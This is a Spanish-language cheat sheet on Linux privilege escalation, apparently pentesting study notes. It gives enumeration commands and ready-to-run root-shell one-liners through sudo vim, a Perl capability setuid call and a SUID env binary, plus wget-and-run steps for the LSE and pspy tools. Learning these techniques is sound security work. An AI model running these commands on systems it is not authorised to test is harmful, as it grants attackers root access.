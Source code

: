# Escalada de Privilegios

Primero, verifiquemos la versión de Linux con el siguiente comando:

```shell
lsb_release -a
```

## Escalada de Privilegios usando sudo -l
Ejecutamos el siguiente comando para verificar qué archivos podemos ejecutar como root:

```shell
sudo -l
```

Desde allí, podemos buscar la carpeta y el exploit que utiliza para establecer una reverse shell.

### Ejemplo 
Si encontramos que podemos ejecutar `/usr/bin/vim` como root, podemos usarlo para escalar privilegios:

```shell
sudo /usr/bin/vim -c ':!/bin/sh'
```

## Escalada Básica de Privilegios usando CAPABILITIES

```shell
getcap -r / 2>/dev/null
```

Esto lista los paquetes o servicios que podemos ejecutar como root.

```shell 
#Ejemplo
/usr/bin/perl = cap_setuid+ep
```

### Ejemplo
Si encontramos que `/usr/bin/perl` tiene `cap_setuid+ep`, podemos usarlo para obtener una shell como root:

```shell
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

## Escalada de Privilegios usando Binarios

Buscamos archivos que podemos ejecutar como root con el usuario actual:

```shell
find / -perm -4000 2>/dev/null
```

Consultamos el binario en GTFobins y buscamos cualquier binario que podamos ejecutar con permisos SUID. El exploit necesita usar la ruta completa.

```shell
/usr/bin/env /bin/sh -p
```

### Ejemplo 
Si encontramos que `/usr/bin/env` tiene permisos SUID, podemos usarlo para obtener una shell privilegiada como se muestra arriba.

## Herramientas

### LSE (Linux Smart Enumeration): 
LSE es una herramienta de enumeración para sistemas Linux que permite a los atacantes obtener información detallada sobre la configuración del sistema, servicios en ejecución y permisos de archivos. LSE utiliza una variedad de comandos de Linux para recopilar información y presentarla en un formato fácil de entender. Usando LSE, los atacantes pueden detectar vulnerabilidades potenciales y encontrar información valiosa para futuros ataques.

**Ejemplo Ético:**
```shell
wget https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh
chmod +x lse.sh
./lse.sh -l 1
```

### Pspy: 
Pspy es una herramienta de enumeración de procesos que permite a los atacantes observar procesos y comandos que se ejecutan en el sistema objetivo a intervalos regulares. Pspy es útil para detectar malware y puertas traseras, así como para identificar procesos maliciosos que se ejecutan en segundo plano sin interacción del usuario.

**Ejemplo Ético:**
```shell
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x pspy64
./pspy64
```

Herramienta LSE: https://github.com/diego-treitos/linux-smart-enumeration  
Herramienta PSPY: https://github.com/DominicBreuker/pspy